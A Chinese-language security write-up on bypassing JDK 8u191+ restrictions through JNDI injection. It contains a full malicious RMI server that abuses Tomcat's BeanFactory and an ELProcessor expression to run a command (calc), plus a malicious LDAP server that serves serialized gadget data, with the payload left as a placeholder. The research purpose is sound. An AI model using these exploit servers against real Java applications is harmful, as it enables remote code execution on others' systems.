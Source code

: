 # 高低版JDK下的JNDI注入绕过流程跟踪(jdk8u191+)

## Rmi

服务端本地`ClassPath`中存在恶意`Factory`类可被利用来作为`Reference Factory`进行攻击利用。该恶意`Factory`类必须实现`javax.naming.spi.ObjectFactory`接口，实现该接口的`getObjectInstance()`方法，网上说是``org.apache.naming.factory.BeanFactory`类,该类的`getObjectInstance()`函数中会通过反射的方式实例化`Reference`所指向的任意`Bean Class`，并且会调用`setter`方法为所有的属性赋值。而该`Bean Class`的类名、属性、属性值，全都来自于`Reference`对象，均是攻击者可控的。

### 依赖

`org.apache.naming.factory.BeanFactory` 存在于Tomcat依赖包中，所以使用也是非常广泛

### 分析

恶意RMI服务端

```java
package lldapp;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 6666");
        Registry registry = LocateRegistry.createRegistry( 6666);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));
        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd', '/c', 'calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

客户端

```Java
import javax.naming.Context;
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String uri = "rmi://localhost:6666/Object";

        Context ctx = new InitialContext();
        ctx.lookup(uri);
    }
}
```

具体跟踪就不写了，来个关键点

![](img/1.png)

从`RMI`注册表中`lookup`查询到服务端中目标类的`Reference`后返回一个`ReferenceWrapper_Stub`类实例，该类实例就是客户端的存根、用于实现和服务端进行交互，最后调用`decodeObject()`函数来解析

![](img/2.png)

跟入

![](img/3.png)

继续跟进`getObjectFactoryFromReference`，从Reference中获取ObjectFactory·	

![](img/4.png)![](img/5.png)

调用`Beanfactory`的`getObjectInstance`

![](img/6.png)

判断obj参数是否是ResourceRef类实例

![](img/7.png)

现在我们来看看对于表达式解析的过程
首先这里获取了我们最初设置的`x=eval`````![](img/8.png)按`=`分隔![](img/9.png)

这里是将`x`与`javax.el.ELProcessor`类的`eval()`方法绑定并存入hashmap![](img/10.png)

接着是多个do while语句来遍历获取ResourceRef类实例addr属性的元素，当获取到addrType为x的元素时退出当前所有循环![](img/11.png)

将刚才存入map的方法取出，并调用

## ldap

LDAP服务端除了支持JNDI Reference这种利用方式外，还支持直接返回一个序列化的对象。如果Java对象的javaSerializedData属性值不为空，则客户端的obj.decodeObject()方法就会对这个字段的内容进行反序列化。此时，如果服务端ClassPath中存在反序列化咯多功能利用Gadget如CommonsCollections库，那么就可以结合该Gadget实现反序列化漏洞攻击。

![](img/14.png)

这里var1(slot_2)变量为null，传入getURLClassLoader()函数调用后返回的是AppClassLoader即应用类加载器；再往下就是调用deserializeObject()函数来反序列化javaSerializedData的对象字节码：

![](img/13.png)

恶意LDAP服务器如下，主要是在javaSerializedData字段内填入刚刚生成的反序列化payload数据：

```Java
package lldapp;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("0.0.0.0"),
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */

        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            try {
                e.addAttribute("javaSerializedData", Base64.decode("" +
                    "反序列化数据"));
            } catch (ParseException exception) {
                exception.printStackTrace();
            }

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

